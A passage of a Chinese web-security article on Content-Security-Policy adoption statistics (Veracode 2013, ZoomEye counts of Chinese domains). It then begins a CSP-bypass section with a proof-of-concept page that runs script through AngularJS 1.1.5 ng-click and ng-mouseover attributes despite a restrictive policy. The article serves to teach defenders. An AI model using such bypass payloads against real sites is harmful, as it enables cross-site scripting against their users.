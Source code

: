 * * *

CSP的全球范围使用率非常低，而且增加的也非常缓慢。根据Veracode在2013年11月给出的报告指出，全球前1000000网站中仅有269个网站使用了W3C规范的CSP 策略头Content-Security-Policy。584个网站在使用X-Content-Security-Policy策略头和487个网站在使用X-Webkit-CSP策略头，这两个协议头已经被废弃，但还没有被禁用。

而使用Content-Security-Policy-Report-Only进行单独接收攻击报告的网站只有24个。而统计中也指出，发现大量网站使用unsafe-inline这个指令，分析其原因可能是由于开发人员很难在页面中彻底消除内联脚本，这很让人失望，所有只能要求制定的CSP策略更加严谨。

![NewImage](http://drops.javaweb.org/uploads/images/ec098870907d0a476e366a87b1b329b2ac7c1469.jpg)

[http://blog.veracode.com/2013/11/security-headers-on-the-top-1000000-websites-november-2013-report/](http://blog.veracode.com/2013/11/security-headers-on-the-top-1000000-websites-november-2013-report/)

对于国内网站使用CSP的情况，我给余弦打了个招呼，ZoomEye对此进行了统计。2014年2月发来的统计结果在非常不乐观。根据ZoomEye的统计：国内排名前7000的域名没有使用CSP，国内1千万的域名（含子域名）中发现7个使用了CSP策略，其中还有3个网站CSP语法使用错误。7个网站中3个网站是知乎，知乎网站值得表扬。列表如下：

```
www.zhihu.com
www.zhi.hu
zhimg.com
www.applysquare.com
www.pipapai.com CSP语法错误
www.icyprus.cn  CSP语法错误
www.uyitec.cn  CSP语法错误

```

在网站安全防御方面，我们还要有很长的路要走。虽然CSP安全策略头只是网站安全整体防御中的一小部分，但合理的利用还是可以起到很好的防护作用。然而在我们分析的百万网站中，CSP的使用率是极其的低，从这一点来说CSP在国内就应该广泛的给网站管理员进行科普。

0x09 CSP Bypass
---------------

* * *

一个安全策略从诞生开始将会时不时的有一个叫“Bypass”的小伙伴跟随左右。而从辩证角度来讲，多加载一种安全策略，就多了一种Bypass的维度。一旦Bypass出现，就意味着将有一种设计者没有考虑到的方法或技巧，将破坏策略的原有规则。

CSP也亦是如此，在一次次被绕过然后在一次次修复过程中，来完善自己的语法和指令。

### bypass AngularJS系列绕过

AngularJS是为数不多的支持CSP模式的MVC框架，在早起版本中可以构造多种方式绕过CSP防御。

CSP Bypasses with AngularJS 1.0.8 and 1.1.5

例如：XSS via Click & Hover (ng-click & ng-mouseover attribute)

```
<?php
header('X-Content-Security-Policy: default-src \'self\' ajax.googleapis.com');
header('Content-Security-Policy: default-src \'self\' ajax.googleapis.com');
header('X-Webkit-CSP: default-src \'self\' ajax.googleapis.com');
header('Set-Cookie: abc=123');
?><!doctype html>
<html ng-app ng-csp>
<head>
<script src="http://ajax.googleapis.com/ajax/libs/angularjs/1.1.5/angular.min.js"></script>
</head>
<body ng-click="$event.view.alert(1)">
        Click me
        <h1 ng-mouseover="$event.target.ownerDocument.defaultView.alert(2)">Hover me</h1>
</body>

```
